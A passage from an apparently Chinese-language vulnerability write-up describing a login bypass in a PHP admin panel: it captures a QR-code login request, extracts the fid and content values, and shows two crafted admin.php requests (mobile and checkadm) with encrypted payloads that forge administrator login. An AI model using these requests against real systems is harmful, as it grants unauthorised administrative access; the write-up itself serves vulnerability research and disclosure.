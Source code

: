 2.  进行登录绕过

首先点击生成二维码，并抓取请求

![image-20231029223354444](assets/1702521293-b5022034095019431b32dd6ffd3a29f0.jpg)

提取fid和content的值，构造二维码链接内容

```url
/admin.php?c=login&f=mobile&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=98f74dWIq9Fxl3ylM9PTGN5t7uLXvxUjkBvgGN8Gi3R3vUXDr+CUy39CuedoZEs1VhBcRGsHJyslvZZxA4ymf4s12N2\/oFNbDhIeMtuj53uEp\/VL00EFK1emBS22iR4htlxmCvChgKcOeZvTjZIrtGI57wH\/s
```

提取页面中`fcode`的值

![image-20231029223402092](assets/1702521293-44cfe862bf825d4ec83b9c857c2fd1a7.jpg)

然后构造`checkadm`请求，用`fid`文件内容密钥加密admin信息

```php
/admin.php?c=login&f=checkadm&fid=a9vLrUxOHh7lGBpOvl0X1YZq31VEoBRj&content=bdd983NgUnCTROK1Ksf7\/brkwgpThiRBRoWfgRzzVducS7Fzg1ND9mbR3mNGg6R6VvAy2CVIaMOwOyAa7PbZgZWkzspzFBs4oWPY1VcJyQ0xZ3WmSXsIXEiFSuXYqMcLpMXFs
```
